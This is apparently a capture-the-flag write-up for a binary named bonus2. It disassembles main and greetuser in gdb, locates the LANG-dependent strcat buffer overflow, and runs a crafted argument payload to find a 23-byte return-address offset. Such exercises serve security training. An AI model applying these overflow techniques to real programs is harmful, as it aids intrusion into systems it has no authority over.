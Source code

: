 # GDB analysis

[`gdb`](https://linux.die.net/man/1/gdb) is useful for us to understand how a given binary works.

## Main function

Let's see what this program does...

```gdb
  $> gdb ./bonus2
  (gdb) disassemble main
  Dump of assembler code for function main:
    0x08048529 <+0>:     push   %ebp
    0x0804852a <+1>:     mov    %esp,%ebp
    0x0804852c <+3>:     push   %edi
    0x0804852d <+4>:     push   %esi
    0x0804852e <+5>:     push   %ebx
    0x0804852f <+6>:     and    $0xfffffff0,%esp
    0x08048532 <+9>:     sub    $0xa0,%esp
    0x08048538 <+15>:    cmpl   $0x3,0x8(%ebp)
    0x0804853c <+19>:    je     0x8048548 <main+31>
    0x0804853e <+21>:    mov    $0x1,%eax
    0x08048543 <+26>:    jmp    0x8048630 <main+263>
    0x08048548 <+31>:    lea    0x50(%esp),%ebx
    0x0804854c <+35>:    mov    $0x0,%eax
    0x08048551 <+40>:    mov    $0x13,%edx
    0x08048556 <+45>:    mov    %ebx,%edi
    0x08048558 <+47>:    mov    %edx,%ecx
    0x0804855a <+49>:    rep stos %eax,%es:(%edi)
    0x0804855c <+51>:    mov    0xc(%ebp),%eax
    0x0804855f <+54>:    add    $0x4,%eax
    0x08048562 <+57>:    mov    (%eax),%eax
    0x08048564 <+59>:    movl   $0x28,0x8(%esp)
    0x0804856c <+67>:    mov    %eax,0x4(%esp)
    0x08048570 <+71>:    lea    0x50(%esp),%eax
    0x08048574 <+75>:    mov    %eax,(%esp)
    0x08048577 <+78>:    call   0x80483c0 <strncpy@plt>
    0x0804857c <+83>:    mov    0xc(%ebp),%eax
    0x0804857f <+86>:    add    $0x8,%eax
    0x08048582 <+89>:    mov    (%eax),%eax
    0x08048584 <+91>:    movl   $0x20,0x8(%esp)
    0x0804858c <+99>:    mov    %eax,0x4(%esp)
    0x08048590 <+103>:   lea    0x50(%esp),%eax
    0x08048594 <+107>:   add    $0x28,%eax
    0x08048597 <+110>:   mov    %eax,(%esp)
    0x0804859a <+113>:   call   0x80483c0 <strncpy@plt>
    0x0804859f <+118>:   movl   $0x8048738,(%esp)
    0x080485a6 <+125>:   call   0x8048380 <getenv@plt>
    0x080485ab <+130>:   mov    %eax,0x9c(%esp)
    0x080485b2 <+137>:   cmpl   $0x0,0x9c(%esp)
    0x080485ba <+145>:   je     0x8048618 <main+239>
    0x080485bc <+147>:   movl   $0x2,0x8(%esp)
    0x080485c4 <+155>:   movl   $0x804873d,0x4(%esp)
    0x080485cc <+163>:   mov    0x9c(%esp),%eax
    0x080485d3 <+170>:   mov    %eax,(%esp)
    0x080485d6 <+173>:   call   0x8048360 <memcmp@plt>
    0x080485db <+178>:   test   %eax,%eax
    0x080485dd <+180>:   jne    0x80485eb <main+194>
    0x080485df <+182>:   movl   $0x1,0x8049988
    0x080485e9 <+192>:   jmp    0x8048618 <main+239>
    0x080485eb <+194>:   movl   $0x2,0x8(%esp)
    0x080485f3 <+202>:   movl   $0x8048740,0x4(%esp)
    0x080485fb <+210>:   mov    0x9c(%esp),%eax
    0x08048602 <+217>:   mov    %eax,(%esp)
    0x08048605 <+220>:   call   0x8048360 <memcmp@plt>
    0x0804860a <+225>:   test   %eax,%eax
    0x0804860c <+227>:   jne    0x8048618 <main+239>
    0x0804860e <+229>:   movl   $0x2,0x8049988
    0x08048618 <+239>:   mov    %esp,%edx
    0x0804861a <+241>:   lea    0x50(%esp),%ebx
    0x0804861e <+245>:   mov    $0x13,%eax
    0x08048623 <+250>:   mov    %edx,%edi
    0x08048625 <+252>:   mov    %ebx,%esi
    0x08048627 <+254>:   mov    %eax,%ecx
    0x08048629 <+256>:   rep movsl %ds:(%esi),%es:(%edi)
    0x0804862b <+258>:   call   0x8048484 <greetuser>
    0x08048630 <+263>:   lea    -0xc(%ebp),%esp
    0x08048633 <+266>:   pop    %ebx
    0x08048634 <+267>:   pop    %esi
    0x08048635 <+268>:   pop    %edi
    0x08048636 <+269>:   pop    %ebp
    0x08048637 <+270>:   ret   
  End of assembler dump.
```

> It uses [`bzero()`](https://man7.org/linux/man-pages/man3/bzero.3.html) via the `rep stos` instruction, [`strncpy()`](https://linux.die.net/man/3/strncpy), [`getenv()`](https://man7.org/linux/man-pages/man3/getenv.3.html), [`memcmp()`](https://man7.org/linux/man-pages/man3/memcmp.3.html) and calls for a custom function called `greetuser()`.

## Additional functions

Let's take a look into this `greetuser()` function.

```gdb
  $> gdb ./bonus2
  (gdb) disassemble greetuser
  Dump of assembler code for function greetuser:
    0x08048484 <+0>:     push   %ebp
    0x08048485 <+1>:     mov    %esp,%ebp
    0x08048487 <+3>:     sub    $0x58,%esp
    0x0804848a <+6>:     mov    0x8049988,%eax
    0x0804848f <+11>:    cmp    $0x1,%eax
    0x08048492 <+14>:    je     0x80484ba <greetuser+54>
    0x08048494 <+16>:    cmp    $0x2,%eax
    0x08048497 <+19>:    je     0x80484e9 <greetuser+101>
    0x08048499 <+21>:    test   %eax,%eax
    0x0804849b <+23>:    jne    0x804850a <greetuser+134>
    0x0804849d <+25>:    mov    $0x8048710,%edx
    0x080484a2 <+30>:    lea    -0x48(%ebp),%eax
    0x080484a5 <+33>:    mov    (%edx),%ecx
    0x080484a7 <+35>:    mov    %ecx,(%eax)
    0x080484a9 <+37>:    movzwl 0x4(%edx),%ecx
    0x080484ad <+41>:    mov    %cx,0x4(%eax)
    0x080484b1 <+45>:    movzbl 0x6(%edx),%edx
    0x080484b5 <+49>:    mov    %dl,0x6(%eax)
    0x080484b8 <+52>:    jmp    0x804850a <greetuser+134>
    0x080484ba <+54>:    mov    $0x8048717,%edx
    0x080484bf <+59>:    lea    -0x48(%ebp),%eax
    0x080484c2 <+62>:    mov    (%edx),%ecx
    0x080484c4 <+64>:    mov    %ecx,(%eax)
    0x080484c6 <+66>:    mov    0x4(%edx),%ecx
    0x080484c9 <+69>:    mov    %ecx,0x4(%eax)
    0x080484cc <+72>:    mov    0x8(%edx),%ecx
    0x080484cf <+75>:    mov    %ecx,0x8(%eax)
    0x080484d2 <+78>:    mov    0xc(%edx),%ecx
    0x080484d5 <+81>:    mov    %ecx,0xc(%eax)
    0x080484d8 <+84>:    movzwl 0x10(%edx),%ecx
    0x080484dc <+88>:    mov    %cx,0x10(%eax)
    0x080484e0 <+92>:    movzbl 0x12(%edx),%edx
    0x080484e4 <+96>:    mov    %dl,0x12(%eax)
    0x080484e7 <+99>:    jmp    0x804850a <greetuser+134>
    0x080484e9 <+101>:   mov    $0x804872a,%edx
    0x080484ee <+106>:   lea    -0x48(%ebp),%eax
    0x080484f1 <+109>:   mov    (%edx),%ecx
    0x080484f3 <+111>:   mov    %ecx,(%eax)
    0x080484f5 <+113>:   mov    0x4(%edx),%ecx
    0x080484f8 <+116>:   mov    %ecx,0x4(%eax)
    0x080484fb <+119>:   mov    0x8(%edx),%ecx
    0x080484fe <+122>:   mov    %ecx,0x8(%eax)
    0x08048501 <+125>:   movzwl 0xc(%edx),%edx
    0x08048505 <+129>:   mov    %dx,0xc(%eax)
    0x08048509 <+133>:   nop
    0x0804850a <+134>:   lea    0x8(%ebp),%eax
    0x0804850d <+137>:   mov    %eax,0x4(%esp)
    0x08048511 <+141>:   lea    -0x48(%ebp),%eax
    0x08048514 <+144>:   mov    %eax,(%esp)
    0x08048517 <+147>:   call   0x8048370 <strcat@plt>
    0x0804851c <+152>:   lea    -0x48(%ebp),%eax
    0x0804851f <+155>:   mov    %eax,(%esp)
    0x08048522 <+158>:   call   0x8048390 <puts@plt>
    0x08048527 <+163>:   leave  
    0x08048528 <+164>:   ret
```

> It uses [`strcpy()`](https://man7.org/linux/man-pages/man3/strcpy.3.html) via the `movzwl` instruction, [`strcat()`](https://man7.org/linux/man-pages/man3/strcat.3.html) and [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html),

# Data

## Variables

```gdb
  (gdb) info variables
  All defined variables:

  Non-debugging symbols:
  0x08048708  _fp_hw
  0x0804870c  _IO_stdin_used
  0x0804886c  __FRAME_END__
  0x08049870  __CTOR_LIST__
  0x08049870  __init_array_end
  0x08049870  __init_array_start
  0x08049874  __CTOR_END__
  0x08049878  __DTOR_LIST__
  0x0804987c  __DTOR_END__
  0x08049880  __JCR_END__
  0x08049880  __JCR_LIST__
  0x08049884  _DYNAMIC
  0x08049950  _GLOBAL_OFFSET_TABLE_
  0x08049978  __data_start
  0x08049978  data_start
  0x0804997c  __dso_handle
  0x08049980  completed.6159
  0x08049984  dtor_idx.6161
  0x08049988  language
```

> There is a global variable `language` located at address `0x08049988`.

## Strings

```gdb
  0x0804859f <+118>:   movl   $0x8048738,(%esp)
  
  (gdb) x/s 0x8048738
  0x8048738: "LANG"
```

The string `LANG` is located at address `0x08048738`.

```gdb
  0x080485c4 <+155>:   movl   $0x804873d,0x4(%esp)
  
  (gdb) x/s 0x804873d
  0x804873d: "fi"
```

The string `fi` is located at address `0x0804873d`.

```gdb
  0x080485c4 <+155>:   movl   $0x8048740,0x4(%esp)
  
  (gdb) x/s 0x8048740
  0x8048740: "nl"
```

The string `nl` is located at address `0x08048740`.

```gdb
  0x0804849d <+25>:    mov    $0x8048710,%edx

  (gdb) x/s 0x8048710
  0x8048710: "Hello "
```
The string `Hello ` is located at address `0x08048710`.

```gdb
  0x080484ba <+54>:    mov    $0x8048717,%edx

  (gdb) x/s 0x8048717
  0x8048717: "Hyvää päivää "
```
The string `Hyvää päivää ` is located at address `0x08048717`.

```gdb
  0x080484e9 <+101>:   mov    $0x804872a,%edx

  (gdb) x/s 0x804872a
  0x804872a: "Goedemiddag! "
```
The string `Goedemiddag! ` is located at address `0x0804872a`.

## Buffer offset

Since we need to overflow using `strcat()` we must compute its buffer offset using either `LANG="nl"` or `LANG="fi"` as default language seems to only rewrite lower bytes. Let's go for `LANG="nl"`.

```gdb
  $> export LANG="nl"
  $> gdb bonus2

  run $(python -c "print '\x90' * 40") $(echo -e "import string\nprint ''.join([char * 4 for char in string.ascii_letters])" | python)
Starting program: /home/user/bonus2/bonus2 $(python -c "print '\x90' * 40") $(echo -e "import string\nprint ''.join([char * 4 for char in string.ascii_letters])" | python)
  Goedemiddag! ����������������������������������������aaaabbbbccccddddeeeeffffgggghhhh

  Program received signal SIGSEGV, Segmentation fault.
  0x67676766 in ?? ()
```

> As we can see we segfault at address `0x67676766` which represent `fggg` meaning last "address is `efff`. Since `f` is the 6th letter of the alphabet, **4 \* 6 - 1** = **23** bytes is our offset using this language.